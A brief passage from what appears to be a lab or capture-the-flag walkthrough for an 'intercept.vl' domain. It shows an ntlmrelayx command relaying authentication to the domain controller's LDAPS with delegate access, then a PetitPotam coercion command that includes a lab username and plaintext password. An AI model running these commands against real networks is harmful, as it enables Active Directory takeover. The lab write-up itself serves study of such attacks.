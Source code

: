     ➜  Intercept ntlmrelayx.py -smb2support -t ldaps://dc01.intercept.vl --delegate-access

then we can start petitpotam

    ➜  PetitPotam git:(main) python3 PetitPotam.py -d intercept.vl -u 'Kathryn.Spencer' -p 'Chocolate1' -d intercept.vl irem@80/aaa 10.10.171.246(WS01)

![alt text](<../assets/images/Screenshot_2025-02-05_00_59_26.png>)

and we got it

![alt text](<../assets/images/Screenshot_2025-02-05_00_59_45.png>)
